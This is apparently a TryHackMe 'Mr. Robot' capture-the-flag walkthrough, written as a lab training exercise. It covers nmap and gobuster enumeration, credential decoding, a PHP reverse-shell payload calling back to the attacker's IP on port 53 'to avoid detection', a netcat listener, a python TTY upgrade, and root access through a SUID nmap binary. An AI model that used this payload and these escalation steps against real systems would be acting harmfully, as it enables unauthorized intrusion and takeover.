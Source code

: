 # Mr. Robot – TryHackMe Walkthrough

## 🧠 Overview
This room is based on the Mr. Robot TV series...

...

OBJECTIVE:
In this room, we are tasked with gaining root access on a vulnerable machine. 
The steps involve network enumeration, web exploitation, and privilege escalation through a reverse shell, followed by privilege escalation using GTFOBins.

INITIAL ENUMERATION:
Step 1: Network Scanning with Nmap
We start by scanning the target IP to identify open ports and services. We use the following Nmap command:
                     
                     nmap -A <target_ip>
                     
Step 2: Directory Bruteforce with Gobuster
Next, we run Gobuster to find hidden directories on the target web server:

gobuster dir -u http://<target_ip> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
This discovers directories and files that may be useful for further exploitation.
/robots
/readme
/license
/sitemap 
/login etc

step3:
http://<target_ip>/robots.txt
you will find:
User-agent: *
fsocity.dic
key-1-of-3.txt

step 4:FINDING KEY 1
to get key1 simply http://ip/key-1-of-3.txt
              OR 
curl http://ip/key-1-of-3.txt

steP5:Finding Key 2 – /license Page
http://<target_ip>/license
You’ll see a base64 encoded string, something like:
         ZGVwbG95ZXI6cm9ib3Q=
Decode It:
echo ZGVwbG95ZXI6cm9ib3Q= | base64 -d
username:password     (HINT username is elloit)


 STEP5:Web Exploitation - Reverse Shell
 after visiting http://ip/login and entering the username and passwd we just found boom we are logged in.Now we have
 to look for weak spots and luckily it wasnt too hard to find one.In the editors menu(vertical left side on website)
 when visited it shows .php so we can look for a php exploit
 

STEP6:Setting Up the Reverse Shell

We find a PHP reverse shell script on GitHub (such as this one: PHP Reverse Shell on GitHub)
and copy the code into the vulnerable web application. Here's how we set it up:

Modify the PHP script to use our IP address and the port number 53 (chosen to avoid detection or blocking by firewalls).

The PHP reverse shell typically looks like this:
                           <?php
                           $ip = '<your_ip>';   // Your IP address here
                           $port = 53;          // Port to connect back to
                           $socket = fsockopen($ip, $port);
                           exec("/bin/sh -i <&3 >&3 2>&3");
                           ?>

                           
STEP7:SETTING UP A LISTENER:
Start the Netcat listener on your local machine to accept
incoming connections on port 53 (or any port of your choice):
                          nc -lvnp 53


STEP8:BYPASSING SU AND SUDO

Once the reverse shell is successfully initiated, we are connected to the target system, but we are restricted to a limited shell. 
We cannot use sudo or su commands to elevate our privileges. This is common when running a reverse shell from a web server.

To bypass these restrictions and get a fully functional TTY shell, we can use Python to spawn a fully interactive shell. 
This method works because the reverse shell is not fully interactive at this point.

                          python -c 'import pty; pty.spawn("/bin/bash")'

pty.spawn("/bin/bash"): This spawns a new shell that supports interactive commands like clear, ls, etc., 
which aren't available in the default reverse shell.


STEP9:Finding SUID Binaries
At this point, we have basic access to the system. To escalate privileges to root, we search for SUID binaries. 
These are executables that have the setuid bit set, which means they will run with the privileges of the file owner (typically root).
We can search for these binaries by running:

                           find / -perm -4000 2>/dev/null

find /: Searches the entire filesystem.

-perm -4000: Finds files with the setuid bit set.

2>/dev/null: Suppresses error messages (like permission denied).

This search may return results like /usr/bin/nmap or /usr/bin/ssh, indicating that these binaries
are setuid and may be useful for privilege escalation.


STEP10:USING NMAP WITH SUID:
In our case, we find that Nmap is setuid, meaning it can be executed with root privileges. By using the GTFOBins resource,
we find that Nmap can be exploited for privilege escalation.
We use Nmap’s interactive mode to escalate our privileges:

                               nmap --interactive
                               
--interactive: Starts Nmap in interactive mode, where we can run system commands as the root user.

Once in interactive mode, we have root access and can run system commands like

                            whoami, id, ls /root, and more.





